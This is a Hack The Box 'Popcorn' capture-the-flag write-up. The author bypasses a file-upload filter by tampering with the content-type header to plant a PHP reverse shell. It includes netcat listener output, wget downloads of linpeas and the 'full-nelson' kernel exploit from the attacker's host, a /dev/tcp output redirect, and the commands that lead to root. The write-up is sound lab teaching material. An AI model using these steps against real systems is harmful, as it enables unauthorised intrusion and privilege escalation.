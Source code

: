 ```yaml
---
description: >-
  The moment you accept things as they are, you don’t need to hope anymore,
  because you realize where you are is kind of okay. - Jason Louv
icon: popcorn
---
```


# Hack The Box - Popcorn Writeup

As usual, we start off with a lazy nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.45.92 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-30 22:19 EDT
Nmap scan report for popcorn.htb (10.129.45.92)
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.92 seconds
```

This is a web box, and as usual, we have 80 and 22 open. After adding popcorn.htb to my hosts file, we go check out the website:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Looks like some kind of Torrent website. There is a login page, and a signup page. Let's go ahead and make an account:

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We login and see some options:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

The most obvious option of interest is the upload functionality:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We can see that this website utilizes php, so we will try uploaded a php shell. We will utilize pentestmonkeys reverse shell: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

When trying to upload the php file straight, it does not let us:

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

I tried many different variations, but the upload functionality seems very strict. I even tried tampering with a legitimate torrent a little bit, and it would not take it. So I grabbed a perfectly valid torrent file online and uploaded it:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

After poking around a little, I find another interesting place to upload files. You can upload a screenshot for your torrent after uploading:

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

All I had to do was tinker with the content-type header, and it took it, no problem:

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

After refreshing the web page, nothing happened at first. However, after clicking on the "Image File Not Found" picture/button, it attempts to expand the "picture", and triggers our paylaod:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444    
listening on [any] 4444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.45.92] 57357
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 05:44:06 up  1:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

Let's run some linpeas. I want the color, so I pipe the contents back to my netcat:

```
www-data@popcorn:/var/www/.ssh$ wget http://10.10.16.5/linpeas.sh
wget http://10.10.16.5/linpeas.sh
--2025-05-31 06:05:18--  http://10.10.16.5/linpeas.sh
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840139 (820K) [text/x-sh]
Saving to: `linpeas.sh'

100%[======================================>] 840,139      527K/s   in 1.6s    

2025-05-31 06:05:20 (527 KB/s) - `linpeas.sh' saved [840139/840139]

www-data@popcorn:/var/www/.ssh$ echo $SHELL
echo $SHELL
/bin/sh
www-data@popcorn:/var/www/.ssh$ /bin/bash
/bin/bash
www-data@popcorn:/var/www/.ssh$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@popcorn:/var/www/.ssh$ ./linpeas.sh > /dev/tcp/10.10.16.5/4445
```

```
┌──(kali㉿kali)-[~/tools]
└─$ nc -nvlp 4445     
listening on [any] 4445 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.45.92] 41142



                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄

```

The output gives an insane amount of OS vulnerabilities, which it is likely vulnerable to multiple. I parsed it down to choose one that had a date labeled prior to the release of the box (2017), and landed on:

```
[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson                                                         

   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: highly probable
   Tags: [ ubuntu=(9.10|10.10){kernel:2.6.(31|35)-(14|19)-(server|generic)} ],ubuntu=10.04{kernel:2.6.32-(21|24)-server}
   Download URL: http://vulnfactory.org/exploits/full-nelson.c
```

After grabbinb it, compiling on the box, and running it:

```
www-data@popcorn:/var/www/.ssh$ wget http://10.10.16.5/nelson.c
wget http://10.10.16.5/nelson.c
--2025-05-31 06:11:11--  http://10.10.16.5/nelson.c
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9124 (8.9K) [text/x-csrc]
Saving to: `nelson.c'

100%[======================================>] 9,124       --.-K/s   in 0.09s   

2025-05-31 06:11:12 (104 KB/s) - `nelson.c' saved [9124/9124]

www-data@popcorn:/var/www/.ssh$ chmod +x nelson.c
chmod +x nelson.c
www-data@popcorn:/var/www/.ssh$ gcc nelson.c -o nelson
gcc nelson.c -o nelson
www-data@popcorn:/var/www/.ssh$ ./nelson
./nelson
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf841d280
 [+] Resolved econet_ops to 0xf841d360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Triggering payload...
[*] Got root!
# id
id
uid=0(root) gid=0(root)
# cat /root/flag.txt
cat /root/flag.txt
cat: /root/flag.txt: No such file or directory
# cd /root
ls
cd /root
ls
# root.txt
# cat root.txt
cat root.txt
7a95f77DEADBEEF31c73bb346a83ddf2
```

This was actually a very easy box. The upload bypass was not tricky, and privilege escalation was also very easy. However, I still find the easy boxes a lot of fun, as they can offer a good change of pace. They also get you to touch back on more basic skills that the more difficult boxes will likely not employ.
